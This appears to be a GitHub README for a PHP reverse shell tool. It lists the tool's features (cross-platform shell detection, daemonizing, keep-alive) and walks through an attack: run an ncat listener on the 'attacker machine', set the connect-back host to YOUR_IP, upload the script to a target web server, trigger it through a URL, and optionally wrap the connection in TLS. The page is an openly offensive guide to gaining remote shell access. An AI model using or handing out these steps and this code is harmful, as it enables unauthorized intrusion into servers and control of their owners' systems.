 simple PHP Reverse Shell — NZRXHX

### Features

- Fully functional reverse shell over TCP
- Compatible with Linux and Windows (auto-detects shell)
- Minimal dependencies — pure PHP
- Forks to background (daemonizes) when possible
- Stable stream handling (fixed `feof()` false positives)
- Keep-alive mechanism to maintain long-lived connections

---

### Usage

## 1. Start Listener

On your **attacker machine**, start a listener:
```bash
ncat -lvnp 443
```
You may replace 443 with another port.

## 2. Edit Script

Modify the following values in the PHP script:
```php
$remote_host = 'YOUR_IP';
$remote_port = 443;
$allowed_hosts = ['YOUR_IP'];
```

## 3. Upload and Execute

Upload the PHP script to the target system and trigger it via a web request:

http://target.com/shell.php

Optional: TLS (SSL) Support

### If using a TLS listener:

```bash
ncat --ssl -lvnp 443
```
Then change this line in the script:
```php
$socket = stream_socket_client("tcp://...");
```
to:
```php
$context = stream_context_create([
  'ssl' => ['verify_peer' => false, 'verify_peer_name' => false]
]);
$socket = stream_socket_client("ssl://$remote_host:$remote_port", $errno, $errstr, $timeout, STREAM_CLIENT_CONNECT, $context);
```
